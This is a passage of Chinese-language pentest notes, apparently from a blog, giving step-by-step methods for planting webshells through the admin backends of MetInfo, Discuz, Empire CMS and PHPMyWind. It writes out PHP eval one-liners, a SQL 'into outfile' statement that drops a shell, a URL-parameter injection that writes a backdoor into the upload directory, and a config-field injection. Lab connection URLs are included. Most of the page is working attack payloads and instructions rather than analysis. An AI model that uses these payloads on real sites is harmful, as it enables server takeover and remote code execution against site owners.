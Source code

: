         

提交，提交完成后会在根目录生成0.php后门文件-
![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20200629001324364.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NDUwODc0OA%3D%3D%2Csize_16%2Ccolor_FFFFFF%2Ct_70)![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20200629001344848.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NDUwODc0OA%3D%3D%2Csize_16%2Ccolor_FFFFFF%2Ct_70)

## metinfo

1.安装插件getshell

2.安全》备份与恢复》数据库备份》下载》打开sql文件》合适的地方输入语句：

    select "<?php @eval($_POST[cmd]);>" into oufile 'c:/inetpub/wwwroot/8121/xx.php';
    
        

》重新压缩》删除之前备份文件》上传修改之后的数据库备份文件》导入：执行sql语句》生成shell

3.<6.0,直接访问：

    192.168.1.10:8095/admin/column/save.php?name=123&action=editor&foldername=upload&module=22;@eval($_POST[cmd]);/*
    
        

在upload目录下生成index.php的一句话：-
连接：192.168.1.10/upload/index.php-
![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20200629001543242.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NDUwODc0OA%3D%3D%2Csize_16%2Ccolor_FFFFFF%2Ct_70)

## discuz

    管理后台：admin.php
    创始人管理后台：uc_server/admin.php
    
        

管理后台：-
1.站长，uccenter设置，插马，待复现。参考-
https://paper.seebug.org/1144/#2-ucketdz

## 帝国cms

1.系统》数据表与系统模型》管理数据表》管理系统模型》导入系统模型》上传1.php.mod》会在当前目录下生成一句话co.php：-
连接：http://192.168.1.10:8111/e/admin/co.php-
![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20200629001712991.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NDUwODc0OA%3D%3D%2Csize_16%2Ccolor_FFFFFF%2Ct_70)2.帝国备份王getshell

## phpmywind

1.网站信息设置》附件设置，添加允许上传类型getshell-
2.网站信息设置》增加新变量-
![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F2020062900184533.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NDUwODc0OA%3D%3D%2Csize_16%2Ccolor_FFFFFF%2Ct_70)-
》提交》基本设置：1;@eval($\_POST\[a\])-
![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20200629001910468.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NDUwODc0OA%3D%3D%2Csize_16%2Ccolor_FFFFFF%2Ct_70)-
》提交>连接：http://192.168.1.10:8112/admin/default.php-
新版本过滤分号无法连接：慎重插马-
![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20200629001940566.png)
